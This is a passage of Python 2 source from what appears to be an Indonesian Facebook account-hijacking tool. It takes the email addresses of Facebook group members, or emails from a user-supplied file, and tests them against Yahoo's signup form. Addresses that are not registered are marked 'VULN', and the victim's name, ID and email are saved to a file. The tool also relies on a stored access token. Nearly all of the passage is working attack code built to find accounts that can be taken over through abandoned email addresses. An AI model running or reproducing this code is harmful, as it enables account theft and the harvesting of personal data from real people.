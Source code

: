                 br._factory.is_html = True
                br.select_form(nr=0)
                br["username"] = mail
                klik = br.submit().read()
                jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
                try:
                    pek = jok.search(klik).group()
                except:
                    continue
                if '"messages.ERROR_INVALID_USERNAME">' in pek:
                    print("\033[1;96m[✓] \033[1;92mVULN")
                    print("\033[1;96m[➹] \033[1;97mID   \033[1;91m: \033[1;92m"+id)
                    print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail)
                    print("\033[1;96m[➹] \033[1;97mNama \033[1;91m: \033[1;92m"+nama)
                    save = open('out/GrupMailVuln.txt','a')
                    save.write("Nama : "+ nama + '\n' "ID        : "+ id + '\n' "Email  : "+ mail + '\n\n')
                    save.close()
                    berhasil.append(mail)
        except KeyError:
            pass
    print 42*"\033[1;96m="
    print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
    print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
    print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/GrupMailVuln.txt"
    raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
    menu()
    

def clone_dari_file():
    global toket
    os.system('clear')
    try:
        toket=open('login.txt','r').read()
    except IOError:
        print"\033[1;96m[!] \x1b[1;91mToken invalid"
        os.system('rm -rf login.txt')
        time.sleep(1)
        keluar()
    try:
        os.mkdir('out')
    except OSError:
        pass
    os.system('clear')
    print logo
    print 42*"\033[1;96m="
    files = raw_input("\033[1;96m[+] \033[1;93mNama File \033[1;91m: \033[1;97m")
    try:
        total = open(files,"r")
        mail = total.readlines()
    except IOError:
        print"\033[1;96m[!] \x1b[1;91mFile tidak ditemukan"
        raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
        menu()
    mpsh = []
    jml = 0
    jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')
    print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
    print 42*"\033[1;96m="
    mail = open(files,"r").readlines()
    for pw in mail:
        mail = pw.replace("\n","")
        jml +=1
        mpsh.append(jml)
        yahoo = re.compile(r'@.*')